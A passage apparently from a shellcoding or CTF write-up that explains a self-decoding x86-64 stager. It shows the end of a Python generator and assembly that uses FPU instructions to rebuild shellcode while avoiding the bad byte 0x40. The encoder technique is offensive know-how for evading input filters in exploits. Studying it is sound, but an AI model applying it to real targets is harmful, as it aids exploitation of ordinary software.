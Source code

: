 ```python
fiadd dword [rax+rcx*4]
fistp dword [rax+rcx*4]
loop _decodeloop
jmp _a0

""".format(num_commands-1, num_commands-1)
```

This generated the following assembly:

```
bits 64

_start:
_stage0:                ; stage0 will carve out stage1 
xor ecx,ecx
jmp _decoder

_a0 dd 0x11101010
_a1 dd 0x2b1f1520
_a2 dd 0x10111a82
_a3 dd 0x89101010
_a4 dd 0x10101110
_a5 dd 0x11101010
_a6 dd 0x10101010
_a7 dd 0x10101120

_b0 dd 0x3fb02138
_b1 dd 0x3f3f3f3f
_b2 dd 0xf4fe3ffd
_b3 dd 0xfe37f2a0
_b4 dd 0x37f4fee7
_b5 dd 0xfe863887
_b6 dd 0x3ff19ff5
_b7 dd 0xb2f4fe3f


_decoder:
xor ebx,ebx
mov cl, (_a7-_start)/4
mov bl, (_b7-_start)/4
_decodeloop:
fild dword [rax+rbx*4]
dec bl
fiadd dword [rax+rcx*4]
fistp dword [rax+rcx*4]
loop _decodeloop
jmp _a0
```

There was, however, a huge problem. The instruction `jmp _decoder` generated a bad char: `0x40`. This is because it has to jump over two times 32 bytes of data to reach the decoder, which is exactly 64 bytes. However, the shellcode is only 31 bytes long, while I store 32 bytes. That means that the last byte is redundant! I exploited this fact by making this final byte a NOP. But because it is used in the decoding process, I had to modify `encode.py` again. 
